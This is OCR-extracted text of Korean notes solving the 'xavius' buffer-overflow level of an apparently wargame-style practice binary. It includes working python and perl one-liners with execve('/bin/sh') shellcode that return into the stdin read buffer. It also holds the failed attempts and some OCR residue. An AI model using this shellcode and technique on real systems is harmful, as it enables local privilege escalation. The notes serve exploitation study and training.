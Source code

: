 addr++; }

memset(buffer,0,44);               // buffer 0으로 초기화 memset(ebp+8,0,bfffffcf-addr); //ret다음부터 아래를 0으로 초기화 memset(addr-3000, 0, 2960);   // buffer윗부분 삭제(LD Preload)
                                             // ret만 제외하고 모두 0으로 초기화

* Xavius
1. bf 영역 사용 불가
2. 08 영역(바이너리) 사용불가
3. ebp+4(ret)의 시작주소 80으로 시작.x
4. c9c3으로 시작x
5. 스택 영역 초기화
->40 찾아보기.

(python -c 'print  "a"*44+"\xbb\xbb\xbb\xbf"';cat)|./xavius     --> stack retbayed you!
(python -c 'print  "a"*44+"\xbb\xbb\xbb\xbb"';cat)|./xavius  --> binary image retbayed you, too!!
(python -c 'print  "a"*44+"\xe0\x8a\x05\x40"';cat)|./xavius
시스템함수 <0x40058ae0> 호출한 경우 -> "You cannot use library function!\n"
*c9c39090-->leave ret nop nop 
함수의 마지막이 대부분 위와 같은 형태임. 따라서 함수를 쓰지 못하도록 한 것.
40형태라더라도 함수형태가 아니면 사용 가능.
strace ./xavius
이용하고 있는 system call을 보여줌.
이 경우 남아있는 40영역 중에서 함수 형태가 아닌 것은 사용 가능하므로

old_mmap(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0                    x40015000 ioctl(0, TCGETS, {B9600 opost isig icanon echo ...}) = 0 read(0, abcdefg "abcdefg\n", 1024)              = 8

read할 때 잠시 0x40015000영역에 저장해 두었다가 사용.

(python -c 'print "\x90"*19+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"+"\x00\x50\x01\x40"';cat)|./xavius

perl로 하면 뒷자리를 01로 바꾸어 주면 됨.

(perl -e 'print  "\x90"x19 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" .  "\x01\x50\x01\x40"';cat)|./xavius



(20) xavius / throw me away
